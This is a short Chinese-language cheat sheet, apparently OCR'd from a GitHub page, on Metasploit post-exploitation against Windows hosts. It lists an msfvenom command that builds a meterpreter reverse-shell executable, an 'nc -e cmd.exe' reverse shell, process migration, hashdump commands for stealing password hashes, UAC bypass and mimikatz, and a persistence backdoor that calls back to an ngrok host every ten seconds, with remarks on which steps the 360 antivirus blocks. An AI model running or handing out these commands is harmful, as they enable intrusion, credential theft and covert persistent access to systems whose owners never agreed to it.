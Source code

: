 目标服务器为 64 位用 x64 监听，反弹 meterpreter 用含有 meterpreter 的模块，反弹普通的 shell （例如 nc），shell_reverse_tcp 模块监听, 例如 msf:

反弹 shell  

> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe 

监听:

> windows/meterpreter/reverse_tcp

反弹 shell  

> nc -e cmd.exe ip port 

监听

> windows/shell_reverse_tcp

meterpreter 下上传 

> upload file 

下载 

> download file

### Msf 进程注入(测试 win10 没成功,win2008 可以，360 会拦)

> meterpreter > getuid
>
> meterpreter > getpid
>
> meterpreter > ps
>
> meterpreter > migrate 676

### Msf hash

> meterpreter > run hashdump    sys
>
> meterpreter > run post/windows/gather/smart_hashdump  需要 sys 权限

getsystem 存在 uac，用 msf bypass，但特征明显 

> meterpreter > search bypassuac

> msf powerdump load mimikatz 不太好用

### Msf 的持续后门

****Persistence:** **

``run persistence -h`` 用于创建启动项启动，会创建注册表，创建文件。（X86_Linux 不支持此脚本）

> run persistence -U -i 10 -p 10390 -r free.ngrok.cc 

会被 360 拦，-i 10 10 秒请求一次, 使用 powershell 执行也被监控而被 360 拦截
